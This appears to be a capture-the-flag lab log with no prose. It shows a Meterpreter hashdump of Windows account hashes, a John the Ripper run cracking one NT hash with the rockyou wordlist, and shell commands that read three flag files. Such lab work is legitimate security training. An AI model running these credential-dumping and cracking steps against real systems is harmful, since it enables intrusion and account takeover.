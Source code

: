 C:\Windows\system32>
____________________-------------________________-----------__________-----------__________--------

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter > 
___________________----------__________---------________---------________--------------

──(husnain㉿husnain)-[~]
└─$ john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=5
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (?)     
1g 0:00:00:00 DONE (2024-07-05 18:00) 1.470g/s 15000Kp/s 15000Kc/s 15000KC/s alqui..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
                                                                                                                            
_____________________----------_____________------___--_--__----____________-----


C:\Windows\system32>type C:\flag1.txt                                                                                       
type C:\flag1.txt                                                                                                           
flag{access_the_machine}                                                                                                    
C:\Windows\system32>                                                                                                        
                     __________________-----------______________-------___---_____--------

C:\Windows\system32>cd config                                                                                               
cd config                                                                                                                   
                                                                                                                            
C:\Windows\System32\config>type flag2.txt                                                                                   
type flag2.txt                                                                                                              
flag{sam_database_elevated_access}                                                                                          
C:\Windows\System32\config>    
______________-----------_________________----------______________-----


C:\Users>cd Jon
cd Jon

C:\Users\Jon>cd Documents
cd Documents

C:\Users\Jon\Documents>type flag3.txt
type flag3.txt
flag{admin_documents_can_be_valuable}
C:\Users\Jon\Documents>


